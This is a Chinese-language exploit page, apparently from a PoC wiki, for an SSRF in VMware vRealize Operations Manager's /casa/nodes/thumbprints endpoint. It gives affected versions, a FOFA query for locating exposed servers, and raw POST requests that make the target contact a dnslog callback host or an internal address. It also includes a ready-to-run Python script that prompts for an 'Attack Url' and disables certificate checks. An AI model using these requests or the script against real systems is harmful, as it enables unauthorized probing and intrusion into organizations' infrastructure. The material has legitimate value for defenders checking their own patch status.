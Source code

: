 <languages  />

漏洞影响

    vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0

    cloud_foundation: 4.x 3.x

    vRealize_suite_lifecycle_manager: 8.x

FOFA
----

    title="vRealize Operations Manager"

漏洞利用

发送如下请求包：

    POST /casa/nodes/thumbprints HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Content-Type: application/json;charset=UTF-8
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Content-Length: 24


    ["eheeyd.dnslog.cn"]

    POST /casa/nodes/thumbprints HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Content-Type: application/json;charset=UTF-8
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Content-Length: 24


    ["127.0.0.1:443/ui"]

POC
---

    import requests
    import sys
    import random
    import re
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mVersion: VMware vRealize Operations Manager                         \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+  \033[36mDnslog      >>> xxx.dnslog.com                                     \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url, v):
        vuln_url = target_url + "/casa/nodes/thumbprints"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/json;charset=UTF-8"
        }
        data = '["{}"]'.format(Dnslog)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=10)
            if response.status_code == 200 :
                print("\033[32m[o] 目标 {} 可能存在SSRF漏洞,请检查 Dnslog 响应 \033[0m".format(target_url, vuln_url))
            else:
                print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
        except Exception as e:
            print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
        Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
        POC_1(target_url, Dnslog)

参考

<https://mp.weixin.qq.com/s/fAYvOdmZO-daxe5FUI8wQA>